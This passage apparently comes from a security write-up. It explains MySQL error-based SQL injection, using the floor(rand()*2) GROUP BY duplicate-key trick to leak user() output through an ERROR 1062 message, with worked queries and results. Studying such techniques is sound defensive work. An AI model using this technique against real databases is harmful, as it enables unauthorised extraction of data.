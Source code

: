 ```
|       22 | 1 |
+----------+---+
2 rows in set (0.00 sec)

mysql> select COUNT(*),floor(rand()*2) as a from wp_posts group by a;
+----------+---+
| COUNT(*) | a |
+----------+---+
|       19 | 0 |
|       23 | 1 |
+----------+---+
2 rows in set (0.00 sec)

```

But many times, I get this:

```

mysql> select COUNT(*),floor(rand()*2) as a from wp_posts group by a;
ERROR 1062 (23000): Duplicate entry '1' for key '<group_key>'

```

Somehow the grouped table that’s being passed to `COUNT` contains a duplicate entry, and it’s throwing the error.

### Building Query

Let’s start with a simple query to run, `select user();`:

```

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.01 sec)

```

The goal is to get `root@localhost` into an error message. I’ll add a `COUNT` column and a `CONCAT` of the data I want to get plus the random 0 or 1:

```

mysql> select COUNT(*),concat(user(), floor(rand()*2)) as a from wp_posts group by a;
+----------+-----------------+
| COUNT(*) | a               |
+----------+-----------------+
|       19 | root@localhost0 |
|       23 | root@localhost1 |
+----------+-----------------+
2 rows in set (0.00 sec)

mysql> select COUNT(*),concat(user(), floor(rand()*2)) as a from wp_posts group by a;
ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key '<group_key>'

```
